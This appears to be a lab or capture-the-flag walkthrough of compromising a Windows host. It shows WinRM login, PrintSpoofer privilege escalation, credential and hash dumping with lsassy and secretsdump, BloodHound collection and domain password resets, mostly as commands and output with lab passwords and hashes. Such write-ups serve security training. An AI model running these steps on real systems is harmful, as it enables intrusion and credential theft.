



## NMAP
```bash

nmap -Pn 192.168.107.163
#Results
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

## Login via Evil-WinRM
```bash
# Login
evil-winrm -i 192.168.107.163 -u 'Eric.Wallows' -p 'EricLikesRunning800'
```

## Privs

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeShutdownPrivilege           Shut down the system                      Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
SeTimeZonePrivilege           Change the time zone                      Enabled

#SeImpersonatePrivilege 

# Enumerate Groups
net localgroup

Aliases for \\GYOZA

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Cryptographic Operators
*Device Owners
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Remote Desktop Users
*Remote Management Users
*Replicator
*System Managed Accounts Group
*Users
```

## Priv Esc Process

```bash
# File Transfer
upload PrintSpoofer64.exe
upload nc64.exe
---------------------

# Add user eric.wallows to administrator group

.\PrintSpoofer64.exe -i -c "cmd /c net localgroup Administrators Eric.Wallows /add"

#Results
The command completed successfully.
```
## Enumerate
```bash
# Discovered Users:
chen
lisa

# Grab Local flag on Chen
.\PrintSpoofer64.exe -i -c "cmd /c type C:\Users\chen\Desktop\local.txt > C:\Users\eric.wallows\Documents\local.txt"
# Grab Administrator flag
.\PrintSpoofer64.exe -i -c "cmd /c type C:\Users\Administrator\Desktop\proof.txt > C:\Users\eric.wallows\Documents\proof.txt"
```
## NXC with lsassy module

```bash
nxc smb 192.168.107.163 -u 'Eric.Wallows' -p 'EricLikesRunning800' -M lsassy

#Results
SMB         192.168.107.163 445    GYOZA            [*] Windows 10 / Server 2019 Build 19041 x64 (name:GYOZA) (domain:sub.poseidon.yzx) (signing:False) (SMBv1:None)
SMB         192.168.107.163 445    GYOZA            [+] sub.poseidon.yzx\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
SMB         192.168.107.163 445    GYOZA            [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
SMB         192.168.107.163 445    GYOZA            [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LSASSY      192.168.107.163 445    GYOZA            Saved 14 Kerberos ticket(s) to /home/kali/.nxc/modules/lsassy
LSASSY      192.168.107.163 445    GYOZA            sub\lisa 905ae9b4d957545fb7b9ea0c4333247b
LSASSY      192.168.107.163 445    GYOZA            [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LSASSY      192.168.107.163 445    GYOZA            sub\lisa LisaWayToGo456
LSASSY      192.168.107.163 445    GYOZA            [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LSASSY      192.168.107.163 445    GYOZA            SUB.POSEIDON.YZX\lisa LisaWayToGo456
LSASSY      192.168.107.163 445    GYOZA            [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.

#lisa:LisaWayToGo456
#lisa:905ae9b4d957545fb7b9ea0c4333247b
```


## Dump Secrets
```bash
python3 secretsdump.py 'Eric.Wallows:EricLikesRunning800@192.168.107.163'

#results
Administrator:500:aad3b435b51404eeaad3b435b51404ee:50adaedf8bbb901937387dfd35f83265:::
sub\GYOZA$:aad3b435b51404eeaad3b435b51404ee:0f09c9418b69b1be8fdbfe3381ab4018:::
lisa:LisaWayToGo456
lisa:Impossible2Crack4.?
```

## Run Sharphound

```bash
upload SharpHound.exe

#Unable to run due to restriction on running files. Abuse printspoofer.
.\PrintSpoofer64.exe -i -c "cmd /c C:\Users\eric.wallows\Documents\SharpHound.exe -c All"

#NOTE: Printspoofer runs as System32, so the file will be saved there since we did not specify an output.
# Find file
ls C:\Windows\System32\*.zip

# Copy it over to Documents folder
copy C:\Windows\System32\20260407171325_BloodHound.zip C:\Users\eric.wallows\Documents\BloodHound.zip

# Download
download BloodHound.zip
```

## Bloodhound Analysis

```bash
#AllExtendedRights
net user dfm.a Password123! /domain

#Example
net rpc password jackie 'Password123!' -U 'sub.poseidon.yzx/lisa%LisaWayToGo456' -S 192.168.107.162
```

## Proceed to .162


